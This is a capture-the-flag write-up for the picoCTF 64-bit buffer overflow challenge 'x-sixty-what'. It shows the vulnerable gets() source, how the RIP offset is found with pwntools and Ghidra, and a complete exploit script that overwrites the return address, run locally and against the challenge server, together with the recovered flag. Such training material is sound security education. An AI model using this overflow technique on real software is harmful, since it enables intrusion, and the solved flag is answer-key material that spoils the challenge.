

# **Challenge:** x-sixty-what


### **Category:** [BinaryExploitation](../)
### **Point Value:** 200
### **Author:** Sanjay C / LT 'syreal' Jones
<br>

## **Description:**
Overflow x64 code  
Most problems before this are 32-bit x86. Now we'll consider 64-bit x86 which is a little different! Overflow the buffer and change the return address to the flag function in this [program](https://artifacts.picoctf.net/c/193/vuln)[^1] [local](./vuln). Download [source](https://artifacts.picoctf.net/c/193/vuln.c)[^1] [local](./vuln.c).  
 ```nc saturn.picoctf.net 61020```

# **Write-Up:**

Building off of the work I did on [bufffer-overflow-0](../buffer-overflow-0/), I started by looking at the [source code](./vuln.c) of the app.  
Looking at the 'vuln' function we can see the app uses 'gets' which is vulnerable to Buffer Overflows, and we know we have a buffer size of 64.

```c

#define BUFFSIZE 64
#define FLAGSIZE 64
...
...
void vuln(){
  char buf[BUFFSIZE];
  gets(buf);./
}

```  
  
Originally I used gdb and stepped through the program while sending it a cyclic string generated by pwntools to find the offset of the rip.  Then I found the following code which can leverage pwntools to do this for us automatically.  The code sends the payload, which I set as a cyclic string of length 500, then dumps the core and searches the stack for the rsp value. Then reads in the pattern from the core and locates the pattern which gives us the rip offset.
  
```python
p.sendline(payload)
p.wait()
core = p.corefile
stack = core.rsp
info("rsp = %#x", stack)
pattern = core.read(stack, 4)
rip_offset = cyclic_find(pattern)
info("rip offset is %d", rip_offset)
print(p.readline())
```

After we have the rip offset, we now need to know the offset for the function we want to run.  In this case it's the 'flag' function.  
  
```c
void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}
```  

Opening the executable in Ghidra, we can find the memory address for that function.  
  

  
We can see here the highlighted asm, with a memory offset of 0x40123b.  Note: I tried using the 0x401236 and 0x40123a at first but kept getting weird SEGFAULTS.  Looking at the hints from the challenge they recomended jumping to the first instruction after the first push in flag().  
  
With these two piece of information I was able to create an [exploit.py](./exploit.py) script, to try out our payload.  The main difference here is when we pack our memory location to add to the payload, we use the p64() function instead of p32() since this is a 64bit application.  

```python
# Import everything in the pwntools namespace
from pwn import *

# Create an instance of the process to talk to
p=process('./vuln')
print(p.readline())

# Create and display our payload
payload  =  cyclic(72) # Generates a string that gets us to the proper offset to overwrite RIP
payload += p64(0x40123b) # memory offset for our flag function
print(payload)

p.sendline(payload)
p.wait()
p.interactive()
```  
After creating a dummy [flag.txt](./flag.txt) and running this script we get the following output:  
```bash
❯ python3 ./exploit.py
[+] Starting local process './vuln': pid 23397
b'Welcome to 64-bit. Give me a string that gets you the flag: \n'
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaa;\x12@\x00\x00\x00\x00\x00'
[*] Process './vuln' stopped with exit code -11 (SIGSEGV) (pid 23397)
[*] Switching to interactive mode
sampleFlagCTF{}[*] Got EOF while reading in interactive
```  
  
Looking here we can tell we got back the contents of our dummy [flag.txt](./flag.txt)  
  
Now to try it on the remote server, we change our exploit to run remotely using the payload we created:  
``` python
# This will use our exploit on the remote host
r = remote('saturn.picoctf.net', 52319)
r.sendlineafter('\n',payload)
r.interactive()
```  
  
```bash
❯ python3 ./exploit.py
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaa;\x12@\x00\x00\x00\x00\x00'
[+] Opening connection to saturn.picoctf.net on port 54490: Done
...
[*] Switching to interactive mode
picoCTF{b1663r_15_b3773r_be31178c}[*] Got EOF while reading in interactive
$  
```  
  
And there it is, the flag! 
# **FLAG:** 
```
picoCTF{b1663r_15_b3773r_be31178c}
```


[^1]: Included links to the source code may be out of date as they were what I recorded during the competition, and may be different now.
[^2]: This instance in launched on demand